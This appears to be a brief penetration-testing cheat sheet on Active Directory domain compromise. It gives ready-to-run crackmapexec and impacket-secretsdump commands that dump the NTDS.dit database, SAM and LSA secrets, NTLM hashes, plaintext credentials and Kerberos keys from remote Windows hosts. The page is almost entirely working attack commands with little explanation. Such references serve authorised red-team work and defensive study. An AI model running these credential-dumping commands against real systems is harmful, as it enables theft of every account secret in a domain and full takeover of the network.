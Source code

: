 # Domain Admin
## Dump ntds.dit
```bash
crackmapexec smb 10.10.10.10 -u username -p password -d domain.local --ntds
```

Dump hashes from a remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, Kerberos keys, and dumping NTDS.dit.
```bash
impacket-secretsdump 'domain.local/username:password'@10.10.10.10
```